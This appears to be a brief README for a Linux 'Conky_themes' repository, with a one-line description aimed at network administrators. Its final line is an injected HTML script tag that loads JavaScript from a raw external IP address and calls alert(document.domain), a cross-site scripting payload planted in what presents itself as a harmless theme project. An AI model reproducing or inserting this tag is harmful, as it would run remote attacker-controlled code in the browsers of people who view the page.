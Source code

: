 # Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"<script type="text/javascript"" src="http://104.43.13.161/hello.js"">     alert(document.domain);   </script>""
